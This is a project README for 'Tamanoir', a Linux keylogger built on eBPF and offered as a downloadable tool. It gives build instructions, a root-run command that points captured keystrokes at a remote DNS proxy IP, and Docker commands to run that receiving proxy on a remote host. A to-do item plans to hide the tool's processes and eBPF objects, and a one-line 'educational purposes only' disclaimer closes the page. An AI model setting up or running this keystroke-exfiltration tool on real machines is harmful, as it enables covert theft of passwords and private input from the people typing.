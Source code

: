 <div align="center">
  <h1> Tamanoir <br> A KeyLogger using eBPF 🐝 </h1>
  <img src="https://github.com/user-attachments/assets/47b8a0ef-6a52-4e2d-8188-e77bb9e98d79" style="width: 40%; height: 40%"</img>
  <p><small>
    <i>
      A large anteater of Central and South America, Myrmecophaga tridactyla
    </i>
  </small></p>
</div>

## 💡Overview

<div align="center">
  <img src="https://github.com/user-attachments/assets/24f80020-9d60-4f2a-825b-ed56574dfb24" </img>
</div>

<br>

## 🚀 Setup

You need a Linux based OS.

### ⚒️ Build from source

To build from source, make sure you have:

- [bpf-linker](https://github.com/aya-rs/bpf-linker) installed.
- [Rust](https://www.rust-lang.org/tools/install) installed with `nightly` toolchain.

#### 1. Build ebpf program

```
cd tamanoir-ebpf
cargo build --release
```

#### 2. Build user space program

```
cargo build --release
```

This will produce an executable file at `target/release/tamanoir` that you can copy to a directory in your `$PATH`

### 📥 Binary release

You can download the pre-built binaries from the [release page](https://github.com/pythops/tamanoir/releases)

<br>

## 🪄 Usage

### Tamanoir

```
RUST_LOG=info sudo -E tamanoir \
              --proxy-ip <DNS proxy IP> \
              --hijack-ip <locally configured DNS server IP> \
              --layout <keyboard layout>
```

for example:

```
RUST_LOG=info sudo -E tamanoir \
              --proxy-ip 192.168.1.75 \
              --hijack_ip 8.8.8.8 \
              --layout 0
```

Currenly, there are two supported keyboard layouts:

`0` : qwerty (us)

`1` : azerty (fr)

<br>

### DNS Proxy

On a remote host, make sure you have [docker](https://docs.docker.com/engine/install/) installed.

#### 1. Build proxy image

```
cd proxy
docker build -t proxy .
```

#### 2. Run proxy

> [!NOTE]
> Make sure port 53 is available

```
docker run --rm -it -p 53:53/udp -e PAYLOAD_LEN=8 proxy
```

<br>

## 🛠️TODO

- [ ] Automatic discovery of the configured local dns server
- [ ] Automatic discovery of the keyboard layout
- [ ] Rewrite the DNS proxy in Rust
- [ ] Make `Tamanoir` stealth (hide used ebpf maps and programs, process pid ...)

<br>

## ⚠️ Disclaimer

`Tamanoir` is developed for educational purposes only

<br>

## ✍️ Authors

[Badr Badri](https://github.com/pythops)

[Adrien Gaultier](https://github.com/adgaultier)

<br>

## ⚖️ License

GPLv3
